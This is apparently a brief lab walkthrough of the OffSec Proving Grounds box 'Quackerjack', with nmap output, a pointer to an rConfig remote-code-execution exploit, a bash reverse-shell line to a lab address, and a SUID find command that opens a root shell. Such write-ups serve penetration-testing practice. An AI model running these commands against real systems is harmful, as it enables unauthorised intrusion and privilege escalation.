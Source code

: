 # Quackerjack

## Info

Quackerjack is an intermediate linux box from offsec proving grounds.

## Nmap

All tcp port scan

```
21/tcp   open  ftp         syn-ack ttl 61 vsftpd 3.0.2
22/tcp   open  ssh         syn-ack ttl 61 OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http        syn-ack ttl 61 Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
111/tcp  open  rpcbind     syn-ack ttl 61 2-4 (RPC #100000)
139/tcp  open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp  open  netbios-ssn syn-ack ttl 61 Samba smbd 4.10.4 (workgroup: SAMBA)
3306/tcp open  mysql       syn-ack ttl 61 MariaDB (unauthorized)
8081/tcp open  http        syn-ack ttl 61 Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
```

## rConfig

The following exploit allows RCE.

```
https://www.exploit-db.com/exploits/48878
```

Changing the url,payload and start a listener on 80.

```
bash -i >& /dev/tcp/192.168.45.200/80 0>&1
```

## Root

The following binary has SUID.

```
/usr/bin/find
```

Get a root shell.

```
find . -exec /bin/sh -p \; -quit
```
